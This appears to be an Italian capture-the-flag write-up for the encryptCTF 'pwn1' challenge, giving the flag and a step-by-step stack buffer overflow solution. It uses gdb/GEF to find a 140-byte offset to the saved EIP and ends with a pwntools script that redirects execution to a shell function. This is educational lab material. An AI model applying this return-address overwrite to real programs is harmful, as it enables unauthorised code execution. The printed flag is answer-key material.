



# Flag
encryptCTF{Buff3R_0v3rfl0W5_4r3_345Y}

# Soluzione
1. Analizziamo il file "pwn1.c"
2. Possiamo osservare la presenza di una funzione ``main`` che esegue dell'input e stampa "Hello, [inputDaTastiera]" e di una funzione shell, che invoca ``bash`
3. Il main non chiama mai la funzione bash, quindi l'unica soluzione è quella di sovvrascrivere l'indirizzo di ritorno del main (``$eip``)
4. Con GEF, mettiamo il break ad altezza del leave e runniamo (``break *main+98``, dove 98 rappresenta il numero di byte da inizio main, individuabili tramite disassemble main, e ``run``)<br> 
5. Eseguire il comando ``info frame``: all'interno possiamo trovare il ``saved eip``, ovvero l'indirizzo di ritorno e nel fondo del testo generato è presente anche la posizione nello stack (`saved registers: ... eip at: 0x.....`) <br>
6. Appuntare l'indirzzo della posizione in stack di ``eip`` (nel nostro caso ``0xffffd49c``)
7. Trovare dove abbiamo scritto la variabile dopo aver runnato il programma fino all'istruzione ``leave`` tramite la visualizzazione dello stack di GEF <br>
 <br> (ATTENZIONE: ``0xffffd404`` non è dove si trova la variabile in cui scriviamo, ma il puntatore ad essa. La variabile, come possiamo vedere sia dal puntatore, che dalla memoria scritta, si trova in ``0xffffd410``, in questo caso)
8. Calcolare la differenza tra l'indirizzo di ``eip`` e la variabile (teoricamente=140)
9. Usare Python per runnare il seguente script <br> 
    ```python
    with process('./pwn1') as r:
        inp=b'A'*140 + p32(0x080484ad) #140 byte + "packaging" con p32 dell'indirizzo di memoria della funzione shell (p32 si occupa anche di gestire la codifica BIG o LITTLE endian) (p32 per ELF32bit, p64 per ELF64bit)
        r.sendline(inp)
        r.interactive()
    ```
10. Runnare lo script e ottenere la FLAG